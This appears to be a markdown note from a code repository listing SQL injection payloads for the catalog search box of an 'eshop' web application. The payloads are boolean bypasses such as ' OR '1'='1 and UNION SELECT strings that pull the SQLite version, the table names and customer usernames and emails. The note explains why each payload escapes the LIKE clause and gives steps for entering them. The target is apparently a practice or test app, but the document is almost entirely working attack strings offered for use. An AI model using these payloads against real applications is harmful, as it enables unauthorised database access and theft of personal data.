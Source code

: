 # Working SQL Injection Payloads

Due to the specific query structure using `LIKE '%%{input}%%'`, these payloads work:

## 1. Basic Boolean-Based (Confirmed Working)
```
' OR '1'='1
```
This works because it creates: `WHERE name LIKE '%%' OR '1'='1%%'`

## 2. Alternative Boolean-Based 
These should also work:
```
' OR 'a'='a
' OR 2>1 OR '
```

## 3. Properly Escaped Payloads
To properly escape the LIKE clause, use `%'` at the beginning:
```
%' OR 1=1 OR '%'='
```

## 4. UNION-Based Injection (Correct Format)
Since we need to properly close the LIKE clause:
```
%' OR 1=1 UNION SELECT '11111111-1111-1111-1111-111111111111', 'INJECTED!', 'Hacked Product', 99.99, '2024-01-01', '2024-01-01' FROM eshop_product WHERE '%'='
```

## 5. Extract SQLite Version
```
%' OR 1=1 UNION SELECT '11111111-1111-1111-1111-111111111111', sqlite_version(), 'DB Version', 1.0, '2024-01-01', '2024-01-01' FROM eshop_product WHERE '%'='
```

## 6. List Tables
```
%' OR 1=1 UNION SELECT '11111111-1111-1111-1111-111111111111', tbl_name, 'Table', 0, '2024-01-01', '2024-01-01' FROM sqlite_master WHERE type='table' AND '%'='
```

## 7. Extract User Data
```
%' OR 1=1 UNION SELECT id, username, email, 0, date_joined, last_login FROM eshop_customuser WHERE '%'='
```

## Why Some Payloads Don't Work

The query structure is:
```sql
WHERE name LIKE '%%USER_INPUT%%' OR description LIKE '%%USER_INPUT%%'
```

This means:
- Simple `' OR '1'='1` works because the `'` closes the LIKE string
- Direct UNION queries fail because they're still inside the LIKE wildcards
- You need `%'` to properly close the LIKE clause first

## Testing These Payloads

1. Login to the application
2. Go to the catalog page
3. In the search box, enter exactly these payloads
4. The `%'` based payloads should work better for UNION attacks